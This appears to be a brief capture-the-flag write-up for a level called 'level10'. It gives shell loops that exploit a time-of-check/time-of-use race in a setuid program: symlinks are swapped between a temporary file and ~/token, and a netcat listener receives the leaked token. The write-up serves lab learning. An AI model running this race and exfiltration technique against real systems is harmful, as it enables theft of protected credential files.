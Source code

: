 the programe send file to host add after send it check the permission by acces so we create a tmp file give it to acces and then we link it with token to read it
`while true; do ln -s /tmp/a /tmp/b; rm -f /tmp/b; ln -s ~/token /tmp/b; rm -f /tmp/b ; done`

launch a loop to execute file 
`while true; do ./level10 /tmp/b  ${host}; done`

Listen to 6969
` while true; do nc -l 6969; done`